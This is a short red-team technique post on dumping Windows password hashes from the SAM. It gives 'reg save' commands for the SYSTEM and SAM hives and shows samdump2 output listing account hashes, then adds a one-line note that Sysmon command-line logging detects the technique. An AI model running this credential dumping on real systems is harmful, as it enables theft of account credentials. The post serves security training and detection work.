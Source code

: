 ```yaml
---
layout: post
title: "2024-06-18-dumping hashes from sam registry"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-hashes-from-sam-registry/
---
```


---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---

# Dumping Hashes from SAM via Registry

## Execution

Dumping the registry hives required for hash extraction:

{% code title="attacker@victim" %}
```erlang
reg save hklm\system system
reg save hklm\sam sam
```
{% endcode %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% code title="attacker@local" %}
```erlang
root@~/tools/mitre/pwdump# samdump2 system sam 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endcode %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)

@spotheplanet
